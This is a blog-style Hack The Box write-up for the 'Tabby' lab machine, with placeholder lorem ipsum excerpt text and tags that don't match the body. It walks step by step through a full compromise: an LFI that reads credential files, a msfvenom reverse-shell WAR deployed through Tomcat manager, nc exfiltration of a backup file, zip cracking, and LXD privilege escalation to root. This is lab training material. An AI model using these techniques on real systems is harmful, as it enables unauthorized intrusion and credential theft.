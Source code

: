 ```yaml
---
layout: single
title: Tabby - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2020-07-06
classes: wide
header:
  teaser: /assets/images/htb-writeup-tabby/tabby_logo.png
  teaser_home_page: true
  icon: /assets/images/linux.png
categories:
  - hackthebox
  - infosec
tags:  
  - linux
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-tabby/tabby_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. root@nidus:/git/htb# nmap -Pn -sC -sV -n 10.10.10.194
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-06 00:47 CEST
    Nmap scan report for 10.10.10.194
    Host is up (0.038s latency).
    Not shown: 997 closed ports
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
    80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title: Mega Hosting
    8080/tcp open  http    Apache Tomcat
    |_http-open-proxy: Proxy might be redirecting requests
    |_http-title: Apache Tomcat
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


    DIRB:
    + http://10.10.10.194:8080/docs (CODE:302|SIZE:0)
    + http://10.10.10.194:8080/examples (CODE:302|SIZE:0)
    + http://10.10.10.194:8080/host-manager (CODE:302|SIZE:0)
    + http://10.10.10.194:8080/index.html (CODE:200|SIZE:1895)
    + http://10.10.10.194:8080/manager (CODE:302|SIZE:0)

    NIKTO:
    -


2. Visiting the webpage on port 80 we directly find;
    - Hostname megahosting.htb
    - The site is also made with Bootstrap Themes from 2016
    - Information about a breach linking to http://megahosting.htb/news.php?file=statement


3. Adding megahosting.htb to /etc/hosts we are able to read their statement. Looking at the URI it looks vulnerable to LFI, testing
   this proves that that's the case - instead of reading the file 'statement' we can read '../../../../../etc/passwd'.

   Reading the passwd-file we find the user Ash;
    ash:x:1000:1000:clive:/home/ash:/bin/bash

   On the port 8080 webserver we find a Tomcat9 server with a admin login prompt. Using the found LFI we can enumerate the tomcat
   server and look for credentials. To find the file structure I installed tomcat9 locally and enumerated the directories locally;

   root@nidus:/usr/share/tomcat9# tree
    .
    ..
    ├── etc
    │   ├── server.xml
    │   ├── tomcat-users.xml
    │   └── web.xml

    We find the user configuration file under /usr/share/tomcat9/etc/tomcat-users.xml. Curling this through our LFI gives us;

    root@nidus:/git/htb/tabby# curl http://megahosting.htb/news.php?file=../../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml
      ..
         <role rolename="admin-gui"/>
         <role rolename="manager-script"/>
         <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
      </tomcat-users>

    CREDENTIALS - tomcat:$3cureP4s5w0rd123!


4. Reading through the Tomcat documentation tells us that if we have access to the host-manager, we are able to add, remove and
   manage Virtual Hosts through curl.

   We create a malicious payload:
   root@nidus:/git/htb/tabby# msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.44 lport=4488 -f war > rev-shell.war
    Payload size: 1086 bytes
    Final size of war file: 1086 bytes

   Upload the shell:
   root@nidus:/git/htb/tabby# curl -u 'tomcat':'$3cureP4s5w0rd123!' -T rev.war 'http://10.10.10.194:8080/manager/text/deploy?path=/rev-shell'
    OK - Deployed application at context path [/rev-shell]

   List Deployed Shell:
   root@nidus:/git/htb/tabby# curl -u 'tomcat':'$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/list
    OK - Listed applications for virtual host [localhost]
    /:running:0:ROOT
    /examples:running:0:/usr/share/tomcat9-examples/examples
    /host-manager:running:0:/usr/share/tomcat9-admin/host-manager
    /rev-shell:running:0:rev-shell
    /manager:running:0:/usr/share/tomcat9-admin/manager
    /docs:running:0:/usr/share/tomcat9-docs/docs

   Execute Deployed Shell:
   root@nidus:/git/htb/tabby# curl -u 'tomcat':'$3cureP4s5w0rd123!' http://10.10.10.194:8080/rev-shell/

   root@nidus:/usr/share/tomcat9# nc -lvnp 4488
    listening on [any] 4488 ...
    connect to [10.10.14.44] from (UNKNOWN) [10.10.10.194] 45912
    whoami
    tomcat


5. Enumerating using linpeas we find a suspicious zip-file that is password protected. We are unable to open it using the found
   password, so instead I think we might be able to brute force it. Transfer the file over to your local computer using nc.

   tomcat@tabby:/dev/shm$ ./linpeas.sh
     ..
     [+] Backup files?
     -rw-r--r-- 1 ash ash 8716 Jun 16 13:42 /var/www/html/files/16162020_backup.zip

   Start listener locally:
    root@nidus:/git/htb/tabby# nc -lp 4433 > 16162020_backup.zip

   Transfer the file from Victim Host:
    tomcat@tabby:/var/www/html/files$ nc -w3 10.10.14.44 4433 < 16162020_backup.zip

   Crack the file using fcrackzip:
    root@nidus:/git/htb/tabby# fcrackzip -D -p /usr/share/wordlists/rockyou.txt 16162020_backup.zip
      possible pw found: admin@it ()


6. We are now able to change to user ash:admin@it and grab user.txt

    tomcat@tabby:/var/www/html/files$ su ash
      Password: admin@it
    ash@tabby:/var/www/html/files$ cd /home/ash/
    ash@tabby:~$ cat user.txt
      3f11605318e3590cea5082935ac8d9cb


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Running Linpeas as Ash we see a, for me, unknown group - lxd. Googling for lxd privesc I find a short article explaining that
   that this is possible with a few short steps.

    ====================================( Basic information )=====================================
    ..
    User & Groups: uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)


2. Download lxd alpine builder and build it LOCALLY before pushing it over to the vicitm.

    root@nidus:/git/htb/tabby# git clone https://github.com/saghul/lxd-alpine-builder.git
    root@nidus:/git/htb/tabby# cd lxd-alpine-builder/
    root@nidus:/git/htb/tabby/lxd-alpine-builder# ./build-alpine

   A tar.gz-file is created that we can push/pull to the victim.
   root@nidus:/git/htb/tabby/lxd-alpine-builder# ls -al
    -rw-r--r-- 1 root root 3195037 Jul  6 16:56 alpine-v3.12-x86_64-20200706_1656.tar.gz


3. Pull the tar.gz-file and import it as an image. Mount to a container and profit, root taken.

    ash@tabby:~$ wget http://10.10.14.44:8181/alpine-v3.12-x86_64-20200706_1656.tar.gz
    ash@tabby:~$ lxc image import ./alpine-v3.12-x86_64-20200706_1656.tar.gz --alias p3-image
      If this is your first time running LXD on this machine, you should also run: lxd init
      To start your first instance, try: lxc launch ubuntu:18.04

  If you started the box yourself, or no one has run lxd yet - write 'lxd init' and just press enter to access all default values.

    ash@tabby:~$ lxc image list
      +----------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+
      |  ALIAS   | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE         |
      +----------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+
      | p3-image | a17d99462fda | no     | alpine v3.12 (20200706_16:56) | x86_64       | CONTAINER | 3.05MB | Jul 6, 2020 at 1:18pm (UTC) |
      +----------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+

   Continue to add a device and select the folder(s) you'd like to mount. In our case we mount the entire box (/) to /mnt/root.

    ash@tabby:~$ lxc init p3-image ignite -c security.privileged=true
      Creating ignite
    ash@tabby:~$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
      Device mydevice added to ignite
    ash@tabby:~$ lxc start ignite
    ash@tabby:~$ lxc exec ignite /bin/sh
    ~ # id
      uid=0(root) gid=0(root)
    ~ # cd /mnt/root/root/
    /mnt/root/root # cat root.txt
      67667b1756a9729b7fadc7f7315019b9



██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

TomCat; Add, Remove, Manage:
  https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_a_Directory_or_WAR_by_URL

lxd PrivEsc:
  https://www.hackingarticles.in/lxd-privilege-escalation/
